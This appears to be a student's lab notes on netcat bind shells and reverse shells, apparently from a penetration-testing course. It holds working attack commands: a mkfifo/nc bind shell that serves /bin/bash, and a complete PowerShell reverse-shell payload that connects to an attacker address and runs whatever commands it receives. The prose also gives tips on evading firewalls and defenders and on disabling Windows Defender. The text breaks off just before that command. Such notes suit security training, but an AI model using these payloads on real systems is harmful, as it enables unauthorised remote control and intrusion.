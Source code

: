 ### Establishing a Basic Bind Shell with Netcat
we will need to specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a shell to the system gets served when the client attempts to connect.

__No. 1: Server - Binding a Bash shell to the TCP session__
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
this is a payload.

__No. 2: Client - Connecting to bind shell on target__
```
nc -nv 10.129.41.200 7777
```
you will notice $ means shell. The exercises helped us understand how a bind shell works without security controls like NAT, firewalls, IDS/IPS, or authentication mechanisms (unrealistic scenario).

## Reverse Shell
With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.
![image](https://github.com/user-attachments/assets/c8dd1422-d61d-491f-aa91-5defd91c644a)

To establish a reverse shell on a vulnerable system, we rely on outbound connections, as these are often overlooked by admins, increasing the chances of going undetected. Unlike bind shells, which require incoming connections through the firewall on the target side, reverse shells initiate a connection from the target to the attacker's system, with the attacker setting up a listener. Techniques like Unrestricted File Upload or Command Injection can trigger this connection. For payloads, we can use resources like the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#socat), which provides pre-built commands and tools. However, it's important to customize attacks since security teams may anticipate commonly used payloads from public repositories.

### Reverse Shell example
__Server (attack box)__ 
```
sudo nc -lvnp 443
```
Port 443 outbound is rarely blocked this usually for HTTPS. Stronger firewall will detect during layer 7 packet detection and may block connection.

__Client (target windows)__
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

This PowerShell code can also be called shell code or our payload. 

an error might occur if windows defender antivirus is active.  For our purposes, we will want to disable the antivirus through the Virus & threat protection settings or by using this command in an administrative PowerShell console (right-click, run as admin):
